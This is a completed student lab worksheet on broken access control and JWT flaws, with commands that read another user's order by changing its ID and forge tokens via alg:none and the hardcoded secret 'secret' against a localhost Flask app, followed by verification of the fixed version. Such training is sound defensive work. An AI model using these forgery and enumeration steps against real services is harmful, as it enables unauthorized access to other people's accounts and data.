





# Worksheet 6 — Authentication, Sessions & Access Control (3 hrs)

> **Course:** Software Security (KOSEN69) · **Week 6**
> **Aligned:** OWASP 2025 **A01 Broken Access Control**, **A07 Authentication Failures** · **CWE-639** (IDOR), **CWE-347** (improper signature verification), **CWE-321** (weak hardcoded key)
> **Signature games:** 🗺️ **IDOR Treasure Hunt** — walk the `oid` numbers to loot orders that aren't yours · 🔏 **JWT Forgery** — mint a token you were never given.

> ⚠️ **Ethics note:** Forging tokens and accessing other users' objects is only legal in this sandbox (`vulnerable_app.py`) and your own Juice Shop. Doing it to a real service is unauthorized access. Keep all activity inside `http://localhost:8080`.

## Part 1 — Student Information

| Name | Student ID | Date | Group |
|------|-----------|------|-------|
|Phuriphat Chantiuaong|6631503034|11/9/2569|---|


## Part 2 — Lecture Questions

Answer in 2–4 sentences each.

1. Distinguish **authentication** from **authorization**. In `vulnerable_app.py`, `get_order` calls `current_user()` but ignores its result (L63) — which of the two is missing?
2. What is **IDOR** (CWE-639)? Why is `/api/orders/<oid>` exploitable, and what single check in `solution_app.py` (L64) closes it?
3. Explain the **`alg:none`** JWT attack. Why does listing `"none"` in `algorithms=[...]` (L55) let an attacker submit an *unsigned* token?
4. Why is the hardcoded HMAC secret `"secret"` (CWE-321) dangerous even if `alg:none` were disabled? How does a strong random secret + pinned algorithm defend the token?
5. What do the JWT claims **`exp`** and **`aud`** add, and why does the secure version reject tokens that lack them?

## Part 3 — Hands-on Lab (150 min)

**Learning goals:** exploit IDOR, forge JWTs two ways (`alg:none` and weak secret), then prove `solution_app.py` enforces ownership and rejects forged tokens. Steps mirror `attack.md`.

**Prerequisites:** Docker + Docker Compose, `curl`, `python3` with `pyjwt`, optionally Burp Suite. Working dir: `labs/week06-authn-authz/`.

### Environment setup

```bash
cd labs/week06-authn-authz
docker compose up            # python:3.12-slim + flask + pyjwt, runs vulnerable_app.py
# vulnerable app -> http://localhost:8080   (service name: authz-lab, port 8080)
```
Optional secondary target / proxy:
```bash
docker run --rm -p 3000:3000 bkimminich/juice-shop       # -> http://localhost:3000
# Burp Suite: put the proxy listener AND the browser proxy on 127.0.0.1:8081.
# NOT 8080 — the lab app already owns host 8080 (docker-compose.yml, "8080:5000").
# Burp's own default listener is 8080, so you must change it: leave it there and
# either the listener refuses to start ("Address already in use") or, if it does
# bind, the browser's proxy address is the target's address and every request
# goes straight to the app instead of through Burp — you intercept nothing.
```

**What to submit per task:** the exact **command/token**, a **screenshot** of the JSON response, and a **2–3 sentence mitigation**.

---

**Task 0 — Onboarding (5 min).** Get alice's token (from `attack.md`):
```bash
TOKEN=$(curl -s -X POST http://localhost:8080/login \
  -H 'Content-Type: application/json' \
  -d '{"user":"alice","pw":"alicepw"}' | python3 -c 'import sys,json;print(json.load(sys.stdin)["token"])')
echo "$TOKEN"
```
Confirm `/api/orders/1` returns alice's Laptop order. *Deliverable: screenshot of the token + order 1.*

Answer


**Task 1 — IDOR Treasure Hunt (30 min) 🗺️.**
- *Goal:* read **bob's** order with **alice's** token.
- *Steps:*
  ```bash
  curl -s http://localhost:8080/api/orders/1 -H "Authorization: Bearer $TOKEN"   # yours
  curl -s http://localhost:8080/api/orders/2 -H "Authorization: Bearer $TOKEN"   # bob's — leaks!
  ```
- *Deliverable:* both responses + screenshot of bob's `Phone` order + why the missing ownership check (CWE-639) is the root cause.

```sim
jwt-forge
```
Answer

The IDOR vulnerability happens because the server accepts Alice's valid token but does not check whether Alice owns the requested order. By changing the `oid` from `/api/orders/1` to `/api/orders/2`, I was able to access Bob's Phone order and its flag. The root cause is the missing server-side ownership check.


**Task 2 — JWT Forgery via alg:none (30 min) 🔏.**
- *Goal:* impersonate bob with an **unsigned** token (no secret needed).
- *Steps:*
  ```bash
  FORGED=$(python3 - <<'PY'
  import jwt
  print(jwt.encode({"sub": "bob"}, key="", algorithm="none"))
  PY
  )
  curl -s http://localhost:8080/api/orders/2 -H "Authorization: Bearer $FORGED"
  ```
- *Deliverable:* the forged token + screenshot of the accepted response + explanation of the `none` flaw (CWE-347).

Answer

I created a JWT with `sub` set to `bob` and the algorithm set to `none`, so the token had no valid signature. The vulnerable server accepted this unsigned token because `none` was included in the allowed algorithms. This allowed me to impersonate Bob and access his order without knowing the secret.

**Task 3 — JWT Forgery via weak secret (30 min) 🔏.**
- *Goal:* sign a *valid* HS256 token because the secret is the guessable string `secret` (CWE-321).
- *Steps:*
  ```bash
  FORGED2=$(python3 - <<'PY'
  import jwt
  print(jwt.encode({"sub": "bob"}, "secret", algorithm="HS256"))
  PY
  )
  curl -s http://localhost:8080/api/orders/2 -H "Authorization: Bearer $FORGED2"
  ```
- *Deliverable:* token + screenshot + 2–3 sentences on why secret strength + key management matter.
Answer

The JWT used HS256, but the server used the weak and predictable secret `"secret"`. Because the secret was easy to guess, I could create a correctly signed token with `sub` set to `bob`. A strong random secret stored securely would make this type of token forgery much harder.

**Task 4 — Privilege/identity escalation reasoning (25 min).**
- *Goal:* combine the flaws. Using Task 2/3 you became `bob` *without his password*; using Task 1 you read objects you don't own.
- *Steps:* document the full attack chain (forge token → access any `oid`). Optionally replay the requests through **Burp Suite Repeater** and screenshot the intercepted request/response.
- *Deliverable:* a short chain diagram/paragraph + Burp (or curl) evidence.
Answer
The attack starts by forging a JWT or using Alice's valid token. Because the server does not properly verify the JWT algorithm and does not perform an ownership check on the requested order, the attacker can impersonate Bob and access orders by changing the `oid` value. The complete attack chain is: forge or obtain a token → send the token to the API → change the order ID → access an order that does not belong to the attacker.

**Task 5 — Defend / fix it (30 min) 🛡️.**
- *Goal:* prove `solution_app.py` blocks Tasks 1–3.
- *Steps:* stop the vulnerable container (`Ctrl-C`), then:
  ```bash
  docker compose run --rm --service-ports authz-lab bash -c "pip install --no-cache-dir flask pyjwt && python solution_app.py"
  ```
  Re-run: get a fresh alice token, then re-fire each attack. Expected: `/api/orders/2` with alice's token → **403 forbidden** (ownership check, L64); the `alg:none` token → **401 invalid token** (algorithm pinned to HS256, L50); the `"secret"` token → **401** (strong random secret + required `aud`/`exp`, L10/40).
- *Deliverable:* screenshots of the 403 and both 401s + name the fix line for each.
Answer

The secure version blocks the IDOR attack with a server-side ownership check, so Alice's token cannot access Bob's order and returns 403 Forbidden. It also pins JWT verification to HS256, which rejects the `alg:none` token with 401. Finally, the secure version uses a strong random secret and requires claims such as `aud` and `exp`, so the token signed with the old weak secret is rejected.

## Part 4 — Reflection

1. **CWE/OWASP mapping:** map IDOR → **CWE-639 / A01**, the JWT forgeries → **CWE-347 & CWE-321 / A07**.
   Answer
   The IDOR vulnerability maps to CWE-639 and OWASP A01 Broken Access Control because the application does not verify whether the authenticated user owns the requested object. The JWT `alg:none` forgery maps to CWE-347 and OWASP A07 Authentication Failures because the application improperly verifies JWT signatures. The weak JWT secret also maps to CWE-321 because the application uses a weak hardcoded cryptographic key.

2. **Real breach:** the **2022 Optus breach** exposed millions of customer records via an exposed/poorly-authorized API endpoint where identifiers could be enumerated — a textbook broken-access-control / IDOR-style failure. In 3–4 sentences connect it to Tasks 1 and 4 of this lab. *(Alternative: the Peloton API IDOR disclosure.)*
   Answer
   The 2022 Optus breach exposed millions of customer records through an exposed API endpoint where identifiers could be enumerated. This is similar to Task 1 because the vulnerable lab API allowed an attacker to change the object ID and access another user's order. It also relates to Task 4 because once an attacker can repeatedly access unauthorized objects, the impact can grow from one record to many records. The main lesson is that APIs must enforce authorization for every requested object on the server side.

3. **Best mitigation:** between deny-by-default ownership checks, pinning the JWT algorithm, and a strong managed secret, which control protects the most attack surface here, and why is server-side authorization non-negotiable?
  Answer
  The most important control in this lab is server-side authorization with deny-by-default ownership checks because it directly prevents users from accessing objects they do not own. Even if authentication is completely bypassed or a JWT is forged, the server must still check whether the authenticated identity is authorized to access the requested resource. JWT algorithm pinning and strong secret management are also important, but they cannot replace object-level authorization.

## Grading rubric (100)

| Criterion | Points |
|-----------|-------:|
| Part 2 — Lecture questions (conceptual accuracy) | 20 |
| Part 3 — Exploitation + evidence (payloads/tokens + screenshots, Tasks 1–4) | 40 |
| Part 3 — Defense (Task 5: fixes proven, lines cited) | 25 |
| Part 4 — Reflection (CWE/OWASP mapping, breach, mitigation) | 15 |
| **Total** | **100** |

---

## Evidence & Integrity (required)

- **Identity proof:** every screenshot/diagram must show a terminal running `printf '%s | %s | ' "$(whoami)" '<YOUR-STUDENT-ID>'; date '+%F %T %Z'` **in the
  same image as the evidence**. When the evidence is a browser page, a DevTools panel or a
  rendered response, put that terminal **beside the browser and capture the whole screen** — a
  cropped window carries nothing that identifies you, and the lab's own output is
  byte-identical for the whole cohort *by design*, so the stamp is the only thing that makes
  the shot yours. Generic or borrowed evidence is not accepted.
- **Personalized flag (if this lab issues one):** ____________________
  *Flags are unique per student — submitting another student's flag is a violation. How to submit: **learn.zcr.ai/submit** (full guide: `SUBMISSION.md` in the repo root).*
- **Explain in your own words** *(graded on your reasoning, not copied text):*
  1. What did you do, and **why did the vulnerability work**?
     Answer
     I first logged in as Alice and received a valid JWT token. I then used Alice's token to request order 2 and was able to see Bob's Phone order because the server did not check whether the requested order belonged to the authenticated user. I also created forged JWT tokens using `alg:none` and the weak secret `"secret"`, and the vulnerable application accepted them because its JWT verification was not secure.

  1. **Why does your fix actually stop it** — and what could still break it?
    Answer
    The fix stops the attack by checking ownership on the server before returning an order, so Alice cannot access Bob's order even when she knows the order ID. The JWT fix also prevents unsigned or incorrectly signed tokens by using a secure verification algorithm, a strong secret, and required claims such as `exp` and `aud`. However, the system could still be vulnerable if the secret is leaked, the ownership check is removed or incorrectly implemented, or another endpoint does not enforce authorization.

---

## 🤖 Audit the AI (required)

AI is a power tool you must **distrust** — you are graded on your *critique*, not the AI's answer.

1. Ask an AI assistant to exploit **or** fix this week's vulnerability. Paste its full answer.
   Answer
   I have a local educational Flask authentication and authorization lab at http://localhost:8080. The lab contains an IDOR vulnerability and JWT authentication weaknesses involving alg:none and a weak hardcoded secret. Explain how these vulnerabilities work and provide a secure fix that prevents unauthorized object access and properly validates JWT signatures, algorithms, expiration, and audience claims. Keep the explanation specific to this local sandbox.

2. **Find what's wrong or risky** in it — insecure code, a subtly incomplete fix, a hallucinated API/function/CVE, a missed edge case, or wrong reasoning. Quote the exact line(s).
   Answer
   One risk in an AI-generated answer is assuming the exact JSON error message without verifying the application's actual response. For example, the secure application may return a different error body while still returning HTTP 403 or 401. Therefore, the response status and the actual source code should be checked instead of trusting an assumed output from the AI.

3. Produce the **correct, verified** version yourself and explain in 2–3 sentences why the AI's output was insufficient.
  Answer
  The verified fix is to enforce authorization on the server by checking that the requested order belongs to the authenticated user. JWT verification should also pin the accepted algorithm to HS256, use a strong randomly generated secret, and require appropriate claims such as `exp` and `aud`. I verified the behavior by replaying the attacks against `solution_app.py`: Alice accessing Bob's order should return 403, while the forged `alg:none` and weak-secret tokens should return 401.

> Disclose your AI use in the Part 1 table. This task counts toward your **Defense + Reflection** score.

---

## 🧠 Comprehension & Prompt (required)

**A. Explain in Plain English (EiPE).** In 2–3 sentences, in your own words, describe what this week's vulnerable code/endpoint actually *does* and *why it is exploitable* — explain the mechanism, don't dump jargon.
Answer
The application uses a JWT to identify the user, but the order endpoint only checks that a token exists and does not properly check whether the user owns the requested order. Because of this, an attacker can change the order ID or create a forged JWT and access another user's order. The secure version fixes this by validating the token correctly and checking ownership on the server.

**B. Prompt Problem.** Write a **single prompt** that makes an AI produce a *correct, secure* fix for one finding. Run it: does the exploit now fail? If not, refine the prompt and try again. Submit the **final prompt + the verified result**.
*Graded on the prompt's precision and your verification — this trains problem decomposition and AI literacy (Denny et al. 2024).*
Answer
Review the authentication and authorization code in this local Flask security lab. Produce a secure fix for the IDOR vulnerability only. The fix must authenticate the user from a securely verified JWT and then perform a server-side ownership check before returning an order. Do not trust the order ID supplied by the client, do not rely on client-side checks, and do not change the intended behavior for legitimate users. After proposing the fix, explain exactly why Alice must receive HTTP 403 when requesting Bob's order and provide a test command that verifies the exploit fails.
